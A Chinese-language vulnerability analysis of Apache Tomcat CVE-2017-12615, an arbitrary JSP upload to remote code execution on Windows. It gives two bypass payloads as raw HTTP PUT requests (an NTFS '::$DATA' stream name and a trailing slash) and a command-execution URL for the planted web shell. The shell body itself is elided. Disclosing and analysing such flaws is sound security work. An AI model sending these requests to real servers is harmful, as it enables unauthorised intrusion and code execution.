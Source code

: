 # Tomcat代码执行漏洞分析测试(附POC)

Author:bingo@猎户实验室、 浮萍@猎户实验室

1. 漏洞花絮

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，漏洞CVE编号:CVE-2017-12615和CVE-2017-12616,其中 远程代码执行漏洞（CVE-2017-12615）    影响： Apache Tomcat 7.0.0 - 7.0.79（7.0.81修复不完全）

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

2. 基本信息

漏洞名称：Tomcat任意文件上传漏洞
漏洞编号：CVE-2017-12615
漏洞影响：上传包含任意代码的文件，并被服务器执行。
影响平台：Windows
影响版本：Apache Tomcat 7.0.0 - 7.0.81

3. 测试过程

0x00 安装Tomcat 7.0.79，添加readonly属性，使者readonly=false.
重启tomcat



0x02 任意文件上传 · 姿势一

思路：参考微软MSDN上关于NTFS Streams的一段资料https://msdn.microsoft.com/en-us/library/dn393272.aspx

All files on an NTFS volume consist of at least one stream - the main stream – this is the normal, 
viewable file in which data is stored. The full name of a stream is of the form below.
<filename>:<stream name>:<stream type>
The default data stream has no name. That is, the fully qualified name for the default stream for 
a file called "sample.txt" is "sample.txt::$DATA" since "sample.txt" is the name of the file and "$DATA" 
is the stream type.

payload::
```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close
...jsp shell...
```
写入成功

0x03 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload /
```
PUT /222.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close
...jsp shell...
```

0x04 连接

http://your-ip:8080/111.jsp?cmd=id